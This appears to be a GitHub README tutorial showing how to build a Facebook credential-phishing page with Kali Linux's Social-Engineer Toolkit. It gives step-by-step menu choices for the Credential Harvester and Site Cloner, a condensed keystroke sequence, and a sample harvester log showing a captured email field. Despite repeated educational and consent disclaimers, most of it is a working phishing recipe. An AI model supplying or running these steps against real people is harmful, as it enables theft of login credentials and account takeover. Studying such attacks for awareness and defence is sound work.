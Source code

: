 # Cibersecurity: Phishing

# Creating a Phishing Attack on Facebook with Kali Linux for Demonstration and Learning Purposes

**Note:** 
This guide is for educational and demonstration purposes only. Never perform phishing attacks in real environments as it is illegal and unethical.
Use this project only in a controlled environment and with explicit consent from participants.
Replace www.facebook.com with any other website you want to clone for testing purposes.

## Step 1: Accessing Kali Linux with root privileges

```
sudo su
```

## Step 2: Launching the Setoolkit

```
setoolkit
```

## Step 3: Selecting the Attack Type

```
Select "1" for "Social-Engineering Attacks" from the main menu.
Then, select "2" for "Website Attack Vectors".
```

## Step 4: Choosing the Attack Method

```
Enter "3" to choose "Credential Harvester Attack Method".
Then, enter "3" again to select "Site Cloner".
```

## Step 5: Getting the Machine's IP Address

```
Type ifconfig to view the network interfaces of your machine.
Note the IP address displayed next to eth0 or wlan0 (your main network interface).
```

## Step 6: Setting the URL of the Site to Clone

```
Enter "1" to choose "Facebook".
Then, press Enter to confirm the selection.
```

## Step 7: Initiating the Cloning Process

```
The Setoolkit will start cloning the Facebook website.
Wait for the process to complete.
```

## Step 8: Starting the Web Server

```
Type "1" to start the Apache web server.
The Setoolkit will start the web server and display the URL of the cloned site.
```

## Step 9: Testing the Phishing Attack

```
Open a new browser and access the URL displayed by the Setoolkit.
You will see a page identical to the Facebook login page.
Enter fake credentials in the login fields.
Press Enter to "log in".
The fake credentials entered will be captured and stored by the Setoolkit.
```

## Step 10: Viewing the Captured Credentials

```
Type "2" to view the captured credentials.
The Setoolkit will display a list of login credentials entered by users during the test.
```

**Notes:**

The Setoolkit stores captured credentials in a file called creds.txt in the /root/.setoolkit/ directory.
You can modify the source code of the cloned site to capture other information besides login credentials.
Remember to use this project only for educational purposes and with explicit consent.

**Step-by-Step Code:**

```
sudo su
setoolkit
1
2
3
3
ifconfig (note the IP address)
1
1
1
2
```

**Use the code with caution.**

This project demonstrates how to create a simple phishing attack on Kali Linux for learning purposes. It is important to remember that conducting phishing attacks in real environments is illegal and unethical. Use this knowledge only for educational purposes and with explicit consent.

## Result

```
POSSIBLE USERNAME FIELD FOUND: skip_api_login=
PARAM: signed_next= BROADCAST_RUNNING=0
PARAM: trynum=1
PARAM: timezone=180
PARAM: lgnrnd=112556_dsDS
PARAM: lgnjs=1668201982
POSSIBLE PASSWORD FIELD FOUND:
POSSIBLE USERNAME FIELD FOUND: email=joe@gmail.com
PARAM: prefill_contact_point=
PARAM: prefill_source=
PARAM: prefill_type=
PARAM: first_prefill_source=
```
